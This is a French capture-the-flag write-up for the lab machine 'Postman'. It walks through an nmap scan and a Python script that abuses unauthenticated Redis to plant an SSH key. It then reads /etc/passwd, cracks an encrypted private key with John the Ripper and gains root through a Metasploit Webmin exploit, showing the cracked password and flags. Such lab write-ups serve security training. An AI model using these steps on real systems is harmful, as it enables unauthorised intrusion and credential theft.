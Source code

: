 Write-Up pour la machine : POSTMAN


Postman est une machine identifiée comme "easy".


I). Nmap
Nous commencerons pazr une phase de reconnaissance a l'aide de Nmap avec la commande `nmap -sV -T4 -v 10.10.10.160`
    -sV : permet de sonder les ports pour déterminer le service et la version derrière le port.
    -T4 : Determine le timing de l'attaque (sa vitesse)
    -v : pour avoir une sortie davantage verbeuse.
    -p- : permet de scanner tous les ports (0-65 535)



2). Exploitation
Nous avons un serveur SSH en écoute sur le port 22
Nous avons un serveur web en écoute sur le port 80
Nous avons un serveur redis en écoute sur le port 6379
Nous avons un Webmin en écoute sur le port 10000

Redis est en version 4.09, ce qui permet l'execution de code a distance sans être authentifié.

Pour cela j'ai utilisé un petit script en python. Il permet d'injecter une clé RSA précedemment générée et de se connecter ensuite.

Pour cela `python redis.py 10.10.10.160 redis`
Voici un petit extrait :
```python
cmd = "redis-cli -h " + ip_address + ' flushall'
cmd1 = "redis-cli -h " + ip_address
os.system(cmd)
cmd2 = "cat $HOME/.ssh/public_key.txt | redis-cli -h " +  ip_address + ' -x set cracklist'
os.system(cmd2)
cmd3 = cmd1 + ' config set dbfilename "backup.db" '
cmd4 = cmd1 + ' config set  dir' + " /home/"+username+"/.ssh/"
cmd5 = cmd1 + ' config set dbfilename "authorized_keys" '
cmd6 = cmd1 + ' save'
os.system(cmd3)
os.system(cmd4)
os.system(cmd5)
os.system(cmd6)
```

Avec un `cat /etc/passwd` nous voyons un utilisateur Matt :
```
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
```

Je décide donc de faire un `find / -user Matt 2>/dev/null`
On voit rapidement un fichier intéressant `/opt/id_rsa.bak`
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

J'utilise ssh2john.py pour formater la clé dans un format compréhensible par JTR.

`./run/ssh2john.py ../key >> ~/Bureau/key_format_john`


J'execute ensuite `john key_format_john --wordlist=/usr/share/wordlists/rockyou.txt`
Resultat : `computer2008`

Il ne reste plus qu'a faire
`redis@Postman:~$ su Matt`
`cat ~/user.txt`
FLAG user : 517ad0ec2458ca97af8d93aac08a2f3c


Passons a présent au Root user.
Il y'a une CVE dans Webmin permettant de devenir Root avec un utilisateur présent dans le système Linux pour cela nous allons utiliser `Matt` et son password `computer2008`

Pour cela nous allons utiliser Metasploit.

```
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > set RHOSTS 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
msf5 exploit(linux/http/webmin_packageup_rce) > exploit
```

```
id
uid=0(root) gid=0(root) groups=0(root)
```

```
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

FLAG Root : a257741c5bed8be7778c6ed95686ddce


